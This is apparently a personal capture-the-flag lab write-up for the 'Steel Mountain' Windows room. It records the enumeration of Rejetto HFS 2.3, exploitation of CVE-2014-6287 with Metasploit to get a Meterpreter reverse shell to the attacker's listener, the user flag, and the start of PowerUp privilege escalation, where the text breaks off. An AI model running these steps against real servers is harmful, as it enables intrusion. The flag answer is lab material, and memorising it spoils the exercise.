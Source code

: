 ### steel_mountain

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our Kali Room.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.


Deploy the machine.

Who is the employee of the month?
- bill harper

![[Pasted image 20220816075400.png]]
![[Pasted image 20220816075342.png]]

Take a look at the other web server. What file server is running?
- rejetto http file server

- upon checking, port 8080 has httpfile server that can be used to exploit via metasploit

```
8080/tcp  open  http               syn-ack HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3

```

- upon searching, we can use exploit/windows/http/rejetto_hfs_exec as entry for exploit

```
msf6 > search exploit/windows/http/rejetto_hfs_exec

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki
                                         /Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address o
                                         n the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.77.171      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.240.86
RHOSTS => 10.10.240.86
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > run

msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.2.77.171:4444 
[*] Using URL: http://10.2.77.171:8080/0Q1oDx
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /0Q1oDx
[*] Sending stage (175686 bytes) to 10.10.240.86
[*] Meterpreter session 1 opened (10.2.77.171:4444 -> 10.10.240.86:49220) at 2022-08-16 20:29:50 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\VSvqaMN.vbs' on the target

meterpreter >


```


What is the CVE number to exploit this file server?
- 2014-6287

Use Metasploit to get an initial shell. What is the user flag?
- located in user/bill/desktop

```
C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/27/2019  09:08 AM    <DIR>          .
09/27/2019  09:08 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,155,801,600 bytes free

C:\Users\bill\Desktop>type user.txt
type user.txt
b04763b6fcf51fcd7c13abc7db4fd365

C:\Users\bill\Desktop>

```

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

Answer the questions below
To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script here. Now you can use the upload command in Metasploit to upload the script.

![[Pasted image 20220817024756.png]]

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:

